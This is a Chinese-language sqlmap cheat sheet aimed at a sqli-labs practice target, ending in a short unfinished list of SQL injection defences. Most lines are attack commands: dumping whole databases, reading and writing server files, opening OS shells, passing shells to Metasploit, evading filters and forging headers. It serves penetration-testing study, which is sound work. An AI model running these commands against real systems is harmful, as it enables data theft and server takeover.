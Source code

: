 sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --dbs        #爆出所有的数据库<br />sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --tables     #爆出所有的数据表<br />sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --columns    #爆出数据库中所有的列<br />sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --current-db #查看当前的数据库<br />sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --tables #爆出数据库security中的所有的表<br />sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --columns #爆出security数据库中users表中的所有的列<br />sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump  #爆出数据库security中的users表中的username列中的所有数据<br />sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump --start 1 --stop 100  #爆出数据库security中的users表中的username列中的前100条数据

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --dump-all #爆出数据库security中的users表中的所有数据<br />sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --dump-all   #爆出数据库security中的所有数据<br />sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --dump-all  #爆出该数据库中的所有数据

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"  --tamper=space2comment.py  #指定脚本进行过滤，用/**/代替空格<br />sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --level=5 --risk=3 #探测等级5，平台危险等级3，都是最高级别。当level=2时，会测试cookie注入。当level=3时，会测试user-agent/referer注入。<br />sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --sql-shell  #执行指定的sql语句<br />sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --os-shell/--os-cmd   #执行--os-shell命令，获取目标服务器权限<br />sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --os-pwn   #执行--os-pwn命令，将目标权限弹到MSF上

sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-read "c:/test.txt" #读取目标服务器C盘下的test.txt文件<br />sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-write  test.txt  --file-dest "e:/hack.txt"  #将本地的test.txt文件上传到目标服务器的E盘下，并且名字为hack.txt

sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --dbms="MySQL"     #指定其数据库为mysql<br />其他数据库：Altibase,Apache Derby, CrateDB, Cubrid, Firebird, FrontBase, H2, HSQLDB, IBM DB2, Informix, InterSystems Cache, Mckoi, Microsoft Access, Microsoft SQL Server, MimerSQL, MonetDB, MySQL, Oracle, PostgreSQL, Presto, SAP MaxDB, SQLite, Sybase, Vertica, eXtremeDB<br />sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --random-agent   #使用任意的User-Agent爆破<br />sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --proxy="[http://127.0.0.1:8080](http://127.0.0.1:8080)"    #指定代理<br />当爆破HTTPS网站会出现超时的话，可以使用参数 --delay=3 --force-ssl<br />sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --technique T    #指定时间延迟注入，这个参数可以指定sqlmap使用的探测技术，默认情况下会测试所有的方式，当然，我们也可以直接手工指定。<br />支持的探测方式如下：<br />　　B: Boolean-based blind SQL injection（布尔型注入）<br />　　E: Error-based SQL injection（报错型注入）<br />　　U: UNION query SQL injection（可联合查询注入）<br />　　S: Stacked queries SQL injection（可多语句查询注入）<br />　　T: Time-based blind SQL injection（基于时间延迟注入）

sqlmap -d "mysql://root:root@192.168.10.130:3306/mysql" --os-shell   #知道网站的账号密码直接连接

-v3                   #输出详细度  最大值5 会显示请求包和回复包<br />--threads 5           #指定线程数<br />--fresh-queries       #清除缓存<br />--flush-session       #清空会话，重构注入<br />--batch               #对所有的交互式的都是默认的<br />--random-agent        #任意的http头<br />--tamper base64encode            #对提交的数据进行base64编码<br />--referer http://www.baidu.com   #伪造referer字段

--keep-alive     保持连接，当出现 [CRITICAL] connection dropped or unknown HTTP status code received. sqlmap is going to retry the request(s) 保错的时候，使用这个参数
# SQL注入防御手段
## 代码层

- 黑名单
- 白名单
- 敏感字符过滤
- 使用框架安全查询
- 规范输出
## 配置层
